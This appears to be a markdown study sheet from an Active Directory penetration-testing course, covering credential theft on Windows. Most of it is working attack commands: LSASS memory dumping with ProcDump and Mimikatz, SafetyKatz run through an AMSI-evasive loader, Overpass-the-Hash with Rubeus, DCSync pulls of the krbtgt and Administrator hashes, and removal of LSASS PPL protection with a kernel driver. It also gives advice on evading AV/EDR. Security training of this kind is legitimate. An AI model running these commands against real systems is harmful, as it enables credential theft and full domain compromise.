

# 05 — Credential Access + LSASS + DCSync

> [!IMPORTANT]
> Gaining local administrative privileges on a machine allows extraction of credential material from the LSASS process memory, SAM registry hive, LSA secrets, or remotely via DCSync replication.

---

## Table of Contents

- [LSASS & Credential Architecture](#lsass--credential-architecture)
- [Credential Extraction Flow Diagram](#credential-extraction-flow-diagram)
- [LSASS Dumping Methods (Live & Offline)](#lsass-dumping-methods-live--offline)
- [Mimikatz & SafetyKatz Memory Extraction](#mimikatz--safetykatz-memory-extraction)
- [Overpass-the-Hash (OPTH) Execution](#overpass-the-hash-opth-execution)
- [DCSync Credential Replication](#dcsync-credential-replication)
- [LSASS Protected Process Light (PPL) Bypass](#lsass-protected-process-light-ppl-bypass)

---

## LSASS & Credential Architecture

The **Local Security Authority Subsystem Service (LSASS)** (`lsass.exe`) manages local security policies and authenticates users.

LSASS holds active credential material in memory:
- Plaintext passwords (WDigest, SSP)
- NTLM hashes (`sekurlsa::msv`)
- Kerberos tickets & TGT session keys (`sekurlsa::tickets` / `sekurlsa::ekeys`)
- DPAPI Master Keys (`sekurlsa::dpapi`)

> **Source:** handwritten pp. 21–22.

---

## Credential Extraction Flow Diagram



---

## LSASS Dumping Methods (Live & Offline)

> [!WARNING]
> Dumping LSASS via direct API calls or `procdump.exe` is heavily monitored by AV/EDR. Use obfuscated loaders or indirect memory dumping where required.

### 1. Task Manager (GUI)
- Open Task Manager → Details tab → Right-click `lsass.exe` → **Create dump file**.
- Output saved to `C:\Users\<USER>\AppData\Local\Temp\lsass.dmp`.

### 2. ProcDump (Sysinternals)
```cmd
procdump.exe -accepteula -ma lsass.exe C:\AD\Tools\lsass.dmp
```

### 3. Parse Dump File Offline (Mimikatz on Attacker Machine)
```text
mimikatz # sekurlsa::minidump C:\AD\Tools\lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
> **Source:** handwritten pp. 53, 55–56.

---

## Mimikatz & SafetyKatz Memory Extraction

```cmd
# Direct Mimikatz execution
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# SafetyKatz execution (Obfuscated Mimikatz wrapper with AMSI bypass)
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

### AMSI Evasive Loader Pattern
```cmd
# Executing SafetyKatz via memory loader
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "sekurlsa::ekeys" "exit"
```
> [!NOTE]
> **⚠ Verify from original:** Re-check exact loader argument names and `ekeys` / `evasive-keys` string on handwritten pp. 26–31.

> **Source:** handwritten pp. 22, 26–31, 39, 56.

---

## Overpass-the-Hash (OPTH) Execution

Overpass-the-Hash requests a valid Kerberos TGT using an NTLM hash or AES key, requesting tickets from the KDC without performing traditional NTLM network authentication.

```text
# Mimikatz OPTH (Spawns new CMD process with injected Kerberos TGT context)
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256_KEY> /run:cmd.exe
```

```cmd
# Rubeus OPTH (Standard TGT request & injection into current logon session)
Rubeus.exe asktgt /user:<USER> /aes256:<AES256_KEY> /ptt

# Rubeus Opsec / Elevated NetOnly Process Spawn
Rubeus.exe asktgt /user:<USER> /aes256:<AES256_KEY> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
> **Source:** handwritten pp. 23–24, 27–29.

---

## DCSync Credential Replication

DCSync uses Active Directory's Directory Replication Service Remote Protocol (`MS-DRSR` / DRSUAPI) to request account secrets directly from a DC.

> [!IMPORTANT]
> **Prerequisites:** To execute DCSync, the account must hold explicit replication rights on the Domain Object:
> - `DS-Replication-Get-Changes` (`Replicating Directory Changes`)
> - `DS-Replication-Get-Changes-All` (`Replicating Directory Changes All`)

```text
# Dump krbtgt account hash (Used for Golden Ticket generation)
lsadump::dcsync /user:<DOMAIN_SHORT>\krbtgt

# Dump Domain Administrator hash
lsadump::dcsync /user:<DOMAIN_SHORT>\Administrator
```
> **Source:** handwritten pp. 24, 31.

---

## LSASS Protected Process Light (PPL) Bypass

If LSASS is protected by LSA Protection (Protected Process Light / PPL), user-mode dumps will fail (`0x00000005 ACCESS DENIED`).

Mimikatz requires kernel-level driver access (`mimidrv.sys`) to strip the PPL process protection flags.

```text
# Load Mimikatz Kernel Driver & Remove PPL from LSASS
mimikatz # privilege::debug
mimikatz # !drv::install C:\AD\Tools\mimidrv.sys
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

> **Source:** handwritten p. 57.
